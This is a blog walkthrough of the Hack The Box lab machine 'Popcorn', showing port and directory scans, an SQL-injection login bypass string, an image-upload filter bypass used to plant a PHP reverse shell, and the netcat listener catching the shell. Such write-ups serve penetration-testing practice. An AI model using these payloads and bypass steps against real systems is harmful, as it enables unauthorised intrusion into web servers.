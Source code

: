 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.6
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.6

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 09:18 EST
<br>Nmap scan report for 10.10.10.6
<br>Host is up (0.15s latency).
<br>Not shown: 998 closed ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 5.1p1 Debian 6ubuntu2</font> (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.2.12</font> ((Ubuntu))
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 88.76 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

**Gobuster**:- To Bruteforce Web Directory
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.6/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt</p> 

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.6/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 301,302,307,200,204
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.6/index (Status: 200)
<br>http://10.10.10.6/test (Status: 200)
<br><font color="53E100">http://10.10.10.6/torrent</font> (Status: 301)
<br>http://10.10.10.6/rename (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>From the gobuster we can see there is a directory **/torrent** in which _Torrent Hoster_ is running.
![Torrent](https://teckk2.github.io/assets/images/Popcorn/1-Popcorn.jpeg)
Now to get inside There are two ways either you can signup a new user or you can do **_sqli loggin bypass_**.
![SQLi bypass](https://teckk2.github.io/assets/images/Popcorn/2-Popcorn.JPG)
<br>In the _Username_ field we will use **{user' 1=1 LIMIT 1;#}** and in the _Password_ field you can use anything like **{password}**.
<br>Using this we can get admin access
![Admin Pannel](https://teckk2.github.io/assets/images/Popcorn/3-Popcorn.JPG)
Now go to the Upload Tab, and there we can only upload a torrent file so Download a valid torrent file or create a [new torrent file](https://www.wikihow.com/Create-a-Torrent)
![Torrent file](https://teckk2.github.io/assets/images/Popcorn/4-Popcorn.JPG)
<br>After uploading the file you will see there is a category _Screenshots_, where we can upload an image, So click on _edit this torrent_ and a new window will pop-up, And you need to remeber one thing we can upload only an image files(_jpg, jpeg, gif, png._). So now We have to bypass the image upload file restriction and need to upload our php reverse-shell in that place.
<br> First Download the PHP standalone [reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or 
<br>Just open the file {<font color="red">root@kali</font>:<font color="RoyalBlue">/usr/share/webshells/php</font>#cat php-reverse-shell.php}
<br>Now open the file and change the IP and Port, Then change the file extension from {file.php} to {file.php;.png}.
<br>And browse the file to upload
[upload](https://teckk2.github.io/assets/images/Popcorn/5-Popcorn.JPG)
<br>Now capture the upload request in _BURP_
[upload request-1](https://teckk2.github.io/assets/images/Popcorn/6-Popcorn.JPG)
And change the extension from {_teck.php;.png_} to {_teck.php_} and forward it.
[upload request-2](https://teckk2.github.io/assets/images/Popcorn/7-Popcorn.JPG)
Now open up the listner and then click on the [Image File not found] box in a new tab
[image not found](https://teckk2.github.io/assets/images/Popcorn/8-Popcorn.JPG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.14.14] from (UNKNOWN) [10.10.10.6] 52549
<br>Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br> 19:50:19 up 1 day, 18:50,  0 users,  load average: 0.00, 0.00, 0.00
<br>USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>/bin/sh: can't access tty; job control turned off
<br>$ id
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>$uname -a
<br>Linux popcorn <font color="53E100">2.6.31-14-generic-pae</font> #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br>$</p> 
</div>
</font>








